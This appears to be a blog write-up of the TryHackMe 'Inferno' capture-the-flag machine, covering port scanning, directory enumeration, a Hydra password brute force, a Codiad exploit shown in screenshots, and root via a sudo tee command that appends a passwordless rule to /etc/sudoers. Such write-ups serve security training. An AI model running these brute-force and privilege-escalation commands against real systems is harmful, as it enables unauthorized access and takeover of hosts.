 ```yaml
---
title: "Inferno TryHackMe"
layout: post
date: 2023-08-19 19:00
tag: 
- TryHackMe
- Pentesting
- Inferno
- Linux
- CTF
- Meduim
image: https://tryhackme-images.s3.amazonaws.com/room-icons/04838068cabd2452b322e06418cce864.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
---
```


# Summary

A meduim real Life machine + CTF.

---
# Nmap

```bash
nmap -A -T4 10.10.144.11   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-19 13:05 +01
Nmap scan report for 10.10.144.11
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
|_  256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dantes Inferno
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I used the common.txt wordlist but I found nothing, then I used the meduim.txt and found the */inferno* endpoint which needed an authentification :

# Gobuster

```bash
gobuster dir -u http://10.10.144.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.144.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/08/19 13:14:59 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 459]
```

The only way was to bruteforce it using **Hydra** :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.144.11 http-get /inferno
[80][http-get] host: 10.10.131.118   login: admin   password: dante1
```

Valid combination found : **admin:dante1**

![!\[\[Pasted image 20230819133810.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819133810.png>)

The user has used the same credentials found before (**admin:dante1**).

<p>I saw the title of the webpage 'Codiad' and I went to look for possible exploits :</p>

![!\[\[Pasted image 20230819141402.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141402.png>)

![!\[\[Pasted image 20230819135144.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135144.png>)

Now I'm in as www-data :

![!\[\[Pasted image 20230819135158.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135158.png>)

![!\[\[Pasted image 20230819135133.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135133.png>)

# www-data -> dante


I found a dat file in */home/dante/Downloads* which contains an encoded hex string :

![!\[\[Pasted image 20230819135823.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135823.png>)

The decoded output contains the user dante's password :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230819135800.png>)

**dante : V1rg1l10h3lpm3**

Now I'm in as *dante* :

![!\[\[Pasted image 20230819135948.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135948.png>)

# PE

![!\[\[Pasted image 20230819140016.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819140016.png>)

We see in the output of *sudo -l* that dante can run */usr/bin/tee* as root, **GTFObins** will helps us to exploit that:

[https://gtfobins.github.io/gtfobins/tee](https://gtfobins.github.io/gtfobins/tee)

```bash
echo 'dante ALL=(ALL) NOPASSWD:ALL' | sudo /usr/bin/tee -a /etc/sudoers
```

BOOM I'm root!

And now we can read the root flag and Voilà :

![!\[\[Pasted image 20230819141116.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141116.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>